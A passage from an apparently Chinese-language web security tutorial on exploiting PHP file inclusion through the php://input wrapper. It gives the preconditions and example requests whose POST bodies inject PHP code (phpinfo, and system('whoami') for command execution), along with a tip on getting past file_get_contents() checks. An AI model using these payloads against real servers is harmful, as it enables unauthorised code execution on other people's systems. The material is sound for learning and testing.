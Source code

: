 **<a class="reference-link" name="php://input"></a>php://input**

可以访问请求的原始数据的只读流。即可以直接读取到POST上没有经过解析的原始数据。 `enctype="multipart/form-data"` 的时候 `php://input` 是无效的。

利用条件：
1. allow_url_include = On。
1. 对allow_url_fopen不做要求。
姿势：

```
fileinclude.php?file=php://input

POST:
&lt;?php phpinfo(); ?&gt;

```

[![](https://p3.ssl.qhimg.com/t01016035a7cb813fa9.png)](https://p3.ssl.qhimg.com/t01016035a7cb813fa9.png)

#### 注意：碰到`file_get_contents()`就要想到用`php://input`绕过

碰到`file_get_contents()`就要想到用`php://input`绕过，因为php伪协议也是可以利用http协议的，即可以使用POST方式传数据。

`file_get_contents()`：这个函数就是把一个文件里面的东西 （字符）全部return出来作为字符串。
- 除此之外，通过实践我发现这个函数如果直接把字符串当作参数会报错，但如果包含的是http协议的网址，则会像`curl`命令一样，把源码读出来。而php伪协议也是识别http协议的，所以说上面`php://input`可以将POST的数据读过来来赋值给参数。
**测试代码：**

```
&lt;?php
    echo file_get_contents("php://input");
?&gt;
```

结果：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0194e56352f4df72eb.png)

<a class="reference-link" name="php://input%EF%BC%88%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%EF%BC%89"></a>**php://input（命令执行）**

利用条件：
1. allow_url_include = On。
1. 对allow_url_fopen不做要求。
姿势：

```
fileinclude.php?file=php://input

POST:
&lt;?php system('whoami'); ?&gt;

```

[![](https://p3.ssl.qhimg.com/t01feb7db17e3f0ba02.png)](https://p3.ssl.qhimg.com/t01feb7db17e3f0ba02.png)
